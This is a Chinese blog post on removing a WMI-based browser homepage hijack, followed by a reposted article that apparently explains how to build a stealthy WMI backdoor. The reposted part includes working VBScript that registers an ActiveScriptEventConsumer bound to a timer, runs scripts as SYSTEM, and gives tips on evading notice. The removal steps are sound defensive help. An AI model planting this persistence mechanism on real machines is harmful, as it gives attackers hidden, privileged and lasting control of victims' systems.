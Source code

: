 ```yaml
---
layout:     post
title:      "浏览器被WMI劫持篡改主页的原理和解决方式"
date:       2016-02-03 02:06:40 UTC
author:     "baicai"
catalog: true
tags:
    - 存档
---
```


<p>有(bi)时(zhe)不慎中招后浏览器主页打开变成2345，hao123等垃圾，但是主页本身没有改动，只是浏览器的快捷方式被加了参数，此时去修改参数，过一会又会自动修改回来。&lt;/p><p>查看系统，没有异常的注册表、启动项和进程，也没有异常的任务计划，这个时候就要怀疑是不是被WMI脚本劫持了。
</p><p>
被WMI劫持的一个标志就是，当WMI脚本运行，也就是当篡改快捷方式这个动作发生时，会有一个scrcons.exe的进程启动，如果查看到这个进程，那就八九不离十了。
</p><p>
要查看WMI事件，去微软下载一个WMITool

https://www.microsoft.com/en-us/download/details.aspx?id=24045

下载，安装，<span style="color: #ff0000;">管理员&lt;/span>方式运行。&lt;/p><p>点击左上角register for events，弹出Connect to namespace框，网上有人说是填入root\subscription，我在win10上是填入默认的root\CIMV2，找到的。&lt;/p><p>

点击左侧_EventFilter:Name="xxxxx"，再至右侧右键点击ActiveScriptEventConsume r Name="xxxx"，选择view instant properties，找到ScriptText，如果里面有你被劫持的那几网址，那就是它了。&lt;/p><p>可以看到，它劫持了几乎市面上所有浏览器的快捷方式。

WMI event viewer中右键，点击删除。

然后去各个快捷方式中，手动把url参数删除。

ok解决。&lt;/p><p>
<h2>关于WMI劫持的原理，转一个文章：</h2>
<h3 class="title">利用WMI打造完美“三无”后门-The Core</h3>
<div class="copyright">

标题: 利用WMI打造完美“三无”后门-The Core
作者: Demon
链接: <a href="http://demon.tw/copy-paste/vbs-wmi-trojan-3.html">http://demon.tw/copy-paste/vbs-wmi-trojan-3.html</a>
版权: 本博客的所有文章，都遵守“&lt;a href="http://demon.tw/copyright">署名-非商业性使用-相同方式共享 2.5 中国大陆</a>”协议条款。

</div>
Welcome!各位ScriptKid，欢迎来到脚本世界。

今天忙了一天，比较累。不废话那么多了，切入正题。

这个“三无”后门的核心就是WMI中的永久事件消费者ActiveScriptEventConsumer（以下简称ASEC）。WMI中有许多这类的事件消费者，简单的来说，当与其绑定的事件到达时，消费者就会被触发执行预先定义好的功能。例如可以用来执行二进制程序的CommandLineEventConsumer等等

ASEC是WMI中的一个标准永久事件消费者。它的作用是当与其绑定的一个事件到达时，可以执行一段预先设定好的JS/VBS脚本。

先来看一下其原型：
<pre class="lang:vb decode:true">class ActiveScriptEventConsumer : __EventConsumer
{
uint8 CreatorSID = {1,1,0,0,0,0,0,5,18,0,0,0}; //事件消费者的CreatorSID 只读
uint32 KillTimeout = 0; //脚本允许被执行的时间 默认为0，脚本不会被终止
string MachineName;

uint32 MaximumQueueSize;

string Name; //自定义的事件消费者的名字。
string ScriptingEngine; //用于解释脚本的脚本引擎。VBScript或者JScript
string ScriptFileName; //如果你想从一个文件里面读取想执行的脚本的话，写上这里吧。
string ScriptText; //用于执行的脚本代码。与ScriptFileName不共戴天。有你没我，有我没你
};</pre>
ASEC的安装

对于XP以后的系统来说，ASEC已经默认安装到了root\subscription名称空间。我们可以直接调用。2000自带有ASEC的mof文件，但是没有默认安装，需要我们自己安装。另外由于大部分的事件都是在root\cimv2里产生，所以如果你想直接捕获一些系统事件作为触发器的话，还得在其他的名称空间中安装ASEC。来看一下在2000/XP/Vista下安装ASEC到root\cimv2的代码。
<pre class="lang:vb decode:true">Function InstallASECForWin2K    '安装ASEC For Windows 2000'
Dim ASECPath2K
ASECPath2K = XShell.Expandenvironmentstrings("%windir%\system32\wbem\")
Set MofFile = FSO.opentextfile(ASECPath2K&amp;"scrcons.mof",1,False)
MofContent = MofFile.Readall
MofFile.Close
MofContent = Replace(MofContent,"\\Default","\\cimv2",1,1) ‘替换默认的名称空间
TempMofFile=ASECPath2K&amp;"Temp.mof"
Set TempMof=FSO.CreateTextFile(TempMofFile,False,True)
TempMof.Write MofContent
TempMof.close
XShell.run "mofcomp.exe -N:root\cimv2 "&amp;TempMofFile,0,TRUE
FSO.DeleteFile(TempMofFile)
ASECStatus = "Ready"
'Wscript.Echo "ASECForWin2K Install OK!"
End Function


Function InstallASECForWinXP    '安装ASEC For Windows XP'
Dim ASECPathXP
XPASECPath = XShell.Expandenvironmentstrings("%windir%\system32\wbem\")
XShell.run "mofcomp.exe -N:root\cimv2 "&amp;XPASECPath&amp;"scrcons.mof",0,TRUE '直接运行安装即可
ASECStatus = "Ready"
'Wscript.Echo "ASECForWinXP Install OK!"
End Function

Function InstallASECForVista    '安装ASEC For Windows Vista'
Dim ASECPath2K
ASECPath2K = XShell.Expandenvironmentstrings("%windir%\system32\wbem\")
Set f = FSO.GetFile(ASECPath2K&amp;"scrcons.mof")
Set MofFile = f.OpenAsTextStream(1,-2)
'Set MofFile = FSO.opentextfile(ASECPath2K&amp;"scrcons.mof",1,False)
MofContent = MofFile.Readall
MofFile.Close
MofContent = Replace(MofContent,"#pragma autorecover","",1,1) //需要删除autorecover，否则安装出错
TempMofFile=ASECPath2K&amp;"Temp.mof"
Set TempMof=FSO.CreateTextFile(TempMofFile,False,True)
TempMof.Write MofContent
TempMof.close
XShell.run "mofcomp.exe -N:root\cimv2 "&amp;TempMofFile,0,TRUE
FSO.DeleteFile(TempMofFile)
ASECStatus = "Ready"
'Wscript.Echo "ASECForWinVista Install OK!"
End Function
</pre>
再来看一个绑定事件和ASEC的实例。
<pre class="lang:vb decode:true">Function InstallUpdateableTrojan
WMILink="winmgmts:\\.\root\cimv2:" 'ASEC所在的名称空间
TrojanName="ScriptKids" '自定义的消费者名字，也就是你的后门的名字
TrojanRunTimer=30000 '自定义的脚本运行间隔

strtxt="" '自定义的脚本内容。为了隐蔽我们就不用scriptfilename了。会被Windows编码后写入CIM存储库

'配置事件消费者&apos;
set Asec=getobject(WMILink&amp;"ActiveScriptEventConsumer").spawninstance_
Asec.name=TrojanName&amp;"_consumer"
Asec.scriptingengine="vbscript"
Asec.scripttext=strtxt
set Asecpath=Asec.put_

'配置计时器&apos;
set WMITimer=getobject(WMILink&amp;"__IntervalTimerInstruction").spawninstance_
WMITimer.timerid=TrojanName&amp;"_WMITimer"
WMITimer.intervalbetweenevents=TrojanRunTimer
WMITimer.skipifpassed=false
WMITimer.put_

'配置事件过滤器&apos;
set EventFilter=getobject(WMILink&amp;"__EventFilter").spawninstance_
EventFilter.name=TrojanName&amp;"_filter"
EventFilter.query="select * from __timerevent where timerid="""&amp;TrojanName&amp;"_WMITimer"""
EventFilter.querylanguage="wql"
set FilterPath=EventFilter.put_

'绑定消费者和过滤器&apos;
set Binds=getobject(WMILink&amp;"__FilterToConsumerBinding").spawninstance_
Binds.consumer=Asecpath.path
Binds.filter=FilterPath.path
Binds.put_

End Function
</pre>
以上代码的含义就是当我们自定义的一个计时器事件发生时，会被我们所配置的事件过滤器捕获到，并触发与过滤器绑定的消费者，也就是我们自定义了脚本的ASEC。达到我们每隔30秒执行一次我们自定义的脚本的目的。很简单吧：）

最后要说的是，我们自定义的脚本运行时，是由系统自带的scrcons.exe作为脚本宿主进行解析，而scrcons.exe是由系统以SYSTEM权限启动的，也就是说，我们的脚本是以SYSTEM权限执行，并且其所创建的任意进程都会继承SYSTEM权限。美中不足的就是，每当脚本执行时，会平白多出一个scrcons.exe的系统进程。这也是这个脚本后门目前最容易被发现的一个弱点。不过，当这个脚本24小时才运行一次时，有多少人会注意到呢？&lt;/p>